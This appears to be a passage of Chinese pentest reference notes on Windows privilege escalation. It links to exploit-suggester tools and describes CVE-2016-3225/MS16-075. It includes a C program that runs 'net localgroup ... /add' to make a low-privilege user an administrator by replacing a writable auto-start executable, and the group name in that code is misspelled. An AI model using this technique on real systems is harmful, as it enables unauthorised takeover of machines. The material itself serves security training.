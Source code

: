 
### 提权漏洞

**相关文章**
- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [猫鼠游戏：Windows内核提权样本狩猎思路分享](https://mp.weixin.qq.com/s/j72DUDKS8MX4iA10WBs2XA)
- [Windows 提权汇总](http://ryze-t.com/posts/2022/01/18/Windows-%E6%8F%90%E6%9D%83%E6%B1%87%E6%80%BB.html)

**提权辅助工具**
- [windows 本地提权对照表](http://www.7kb.org/138.html)
- [提权辅助网页](https://i.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合
- [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) - 将目标的修补程序与微软的漏洞数据库进行比较，以检测目标的潜在缺失修补程序。
- [akabe1/windows_exploit_dowser](https://github.com/akabe1/windows_exploit_dowser) - 一个简单的工具，可以用来识别影响 Windows 操作系统的漏洞。
- [itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck) - Privilege Escalation Enumeration Script for Windows

**添加开机启动项**

useradd.c
```C
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
```
将 useradd.exe 传到目标机上,用 useradd.exe 去替换 everyone 完成控制且以系统权限开机自启的 exe,即可将用户 lowpriv 提升为管理员权限

查看一个程序的各个用户权限: `icacls xxx.exe`

**CVE-2016-3225 && MS16-075**
- 简介

    Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。
